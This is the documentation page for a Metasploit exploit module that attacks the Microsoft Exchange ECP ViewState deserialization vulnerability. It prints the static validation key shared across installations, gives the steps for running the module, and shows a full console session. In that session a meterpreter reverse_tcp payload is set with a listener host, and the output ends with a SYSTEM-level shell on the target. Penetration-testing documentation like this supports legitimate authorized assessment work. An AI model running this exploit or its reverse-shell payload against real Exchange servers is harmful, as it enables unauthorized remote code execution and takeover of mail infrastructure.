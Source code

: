 ## Vulnerable Application

This module exploits a .NET serialization vulnerability in the Exchange Control
Panel (ECP) web page. The vulnerability is due to Microsoft Exchange Server not
randomizing the keys on a per-installation basis resulting in them using the
same validationKey and decryptionKey values. With knowledge of these, values an
attacker can craft a special viewstate to cause an OS command to be executed by
NT_AUTHORITY\SYSTEM using .NET deserialization.

The default ViewState validation key is: `cb2721abdaf8e9dc516d621d8b8bf13a2c9e8689a25303bf`.

This module requires the user to authenticate to Exchange. At a minimum the user
must be a member of the `Domain Users` group and have a mailbox configured on
the Exchange server.

The crafted ViewState must be submitted to the server in a GET request (POST
requests will not work) which introduces a size restriction on the contents. Due
to this, OS commands are limited to a length of approximately 450 which accounts
for the overhead of the serialization data. The OS command must also be XML
encoded which increases the size as well. The .NET deserialization used is the
"TextFormattingRunProperties" chain from the [ysoserial.net][1] project.

## Verification Steps

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/windows/http/exchange_ecp_viewstate`
  1. Set the `RHOSTS`, `USERNAME` and `PASSWORD` options
  4. Do: `run`
  5. You should get a shell.

## Options

### USERNAME

Username to log in with

### Password

Password to log in with

## Scenarios

### Exchange 2016 on Server 2012 x64

  For example:

    msf5 > use exploit/windows/http/exchange_ecp_viewstate
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set RHOSTS 192.168.159.129
    RHOSTS => 192.168.159.129
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set USERNAME msflab.local\\jdoe
    USERNAME => msflab.local\jdoe
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set PASSWORD Password1
    PASSWORD => Password1
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set TARGET 1
    TARGET => 1
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
    PAYLOAD => windows/x64/meterpreter/reverse_tcp
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set LHOST 192.168.159.128
    LHOST => 192.168.159.128
    msf5 exploit(windows/http/exchange_ecp_viewstate) > exploit
    
    [*] Started reverse TCP handler on 192.168.159.128:4444 
    [*] Command Stager progress -   3.61% done (449/12424 bytes)
    [*] Command Stager progress -   7.23% done (898/12424 bytes)
    [*] Command Stager progress -  10.84% done (1347/12424 bytes)
    [*] Command Stager progress -  14.46% done (1796/12424 bytes)
    [*] Command Stager progress -  18.07% done (2245/12424 bytes)
    [*] Command Stager progress -  21.68% done (2694/12424 bytes)
    [*] Command Stager progress -  25.30% done (3143/12424 bytes)
    [*] Command Stager progress -  28.91% done (3592/12424 bytes)
    [*] Command Stager progress -  32.53% done (4041/12424 bytes)
    [*] Command Stager progress -  36.14% done (4490/12424 bytes)
    [*] Command Stager progress -  39.75% done (4939/12424 bytes)
    [*] Command Stager progress -  43.37% done (5388/12424 bytes)
    [*] Command Stager progress -  46.98% done (5837/12424 bytes)
    [*] Command Stager progress -  50.60% done (6286/12424 bytes)
    [*] Command Stager progress -  54.21% done (6735/12424 bytes)
    [*] Command Stager progress -  57.82% done (7184/12424 bytes)
    [*] Command Stager progress -  61.44% done (7633/12424 bytes)
    [*] Command Stager progress -  65.05% done (8082/12424 bytes)
    [*] Command Stager progress -  68.67% done (8531/12424 bytes)
    [*] Command Stager progress -  72.28% done (8980/12424 bytes)
    [*] Command Stager progress -  75.89% done (9429/12424 bytes)
    [*] Command Stager progress -  79.51% done (9878/12424 bytes)
    [*] Command Stager progress -  82.74% done (10279/12424 bytes)
    [*] Command Stager progress -  86.15% done (10703/12424 bytes)
    [*] Command Stager progress -  89.43% done (11111/12424 bytes)
    [*] Command Stager progress -  92.91% done (11543/12424 bytes)
    [*] Command Stager progress -  96.28% done (11962/12424 bytes)
    [*] Sending stage (206403 bytes) to 192.168.159.129
    [*] Command Stager progress -  99.84% done (12404/12424 bytes)
    [*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.129:17626) at 2020-03-02 10:40:52 -0500
    [*] Command Stager progress - 100.00% done (12424/12424 bytes)
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    meterpreter > sysinfo
    Computer        : EXCHANGE
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : MSFLAB
    Logged On Users : 9
    Meterpreter     : x64/windows
    meterpreter > 

[1]: https://github.com/pwntester/ysoserial.net
